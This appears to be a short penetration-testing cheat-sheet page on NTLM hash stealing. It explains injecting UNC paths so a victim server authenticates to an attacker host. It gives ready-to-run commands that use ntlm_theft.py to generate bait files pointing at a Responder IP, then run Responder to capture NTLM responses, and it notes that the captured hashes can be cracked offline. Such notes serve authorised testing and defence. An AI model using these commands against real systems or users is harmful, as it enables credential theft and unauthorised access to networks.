 ```yaml
---
label: NTLM Hash Stealing
---
```


# NTLM Hash Stealing

The trick is to force victim server to auth attempt with attacker host. [Check out places to steal NT hash](https://hacktricks.boitatech.com.br/windows/ntlm/places-to-steal-ntlm-creds). In general, wherever an [UNC Path](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) can be injected it's possible to have NTLM hash stealing vulnerability.  

The [_ntlm\_theft.py_](https://github.com/Greenwolf/ntlm_theft) script is used to generate multiple files to steal NTLM response. These files can be uploaded wherever it's possible to execute them (e.g. an SMB share).

```bash
# Generate all files
python ntlm_theft.py -s $responder_ip -f $filename -g all
# Upload file and execute it from the victim machine

# Grab all NTLM responses
responder -I $net_interface
```

The captured NT hashes can then be cracked offline. However, these are not the hashes that can be used in a Pass-The-Hash type of attack.
